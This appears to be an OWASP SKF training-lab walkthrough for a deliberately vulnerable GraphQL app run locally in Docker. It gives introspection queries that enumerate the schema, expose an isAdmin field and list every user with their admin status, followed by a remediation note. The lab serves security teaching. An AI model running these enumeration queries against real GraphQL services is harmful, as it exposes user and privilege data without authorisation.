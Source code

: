 # GraphQL Introspection

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-graphql-introspection
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-graphql-introspection
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

As soon as we browse on `http://0.0.0.0:5000` we see the few posts published by 2 users

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/GraphQL-Introspection/1.png)

## Exploitation

We want to use the introspection feature (enabled) in this case, to understand more about what queries are supported.

Let' use the `GraphiQL` UI to send queries to the backend and discover what is available.

Go to `http://0.0.0.0:5000/graphql`. We can query the generic `__schema` using:

```
{
  __schema {
    types {
      name
    }
  }
}
```

The application gives us interesting `Types`. Let's explore the `User` one. If we build another query we can ask for more information, exploring every field available. Let's send the following:

```
{
	__type(name: "User"){
    name
    fields{
      name
    }
  }
}
```

In this case, for each field we we want to know what are the subfields and of which type.

The application will answer with:

```json
{
  "data": {
    "__type": {
      "name": "User",
      "fields": [
        {
          "name": "id"
        },
        {
          "name": "username"
        },
        {
          "name": "isAdmin"
        }
      ]
    }
  }
}
```

> BINGO! We have some good information here

We can see that there is an interesting field `isAdmin`, that we can use to find out who is the admin of the application.

Now we just need to query all the Users. To do that, let's see if there is a query available. We can use the following syntax:

```
{
	__schema{
    queryType{
      fields{
        name
        description
      }
    }
  }
}
```

That will give us the `Users` query. Now we need to understand what are the fields. We can do that in different ways, using GraphiQL or doing some more introspection. In this case we use GraphiQL, sending the following query:

```
{
	Users{
    username
    isAdmin
  }
}

```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/GraphQL-Introspection/2.png)

## Solution

Implement authorization on graphql endpoint. Although authenticated users could query the information, you should not map sensitive information into the type defined into the schema.

## Additional resources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html" %}
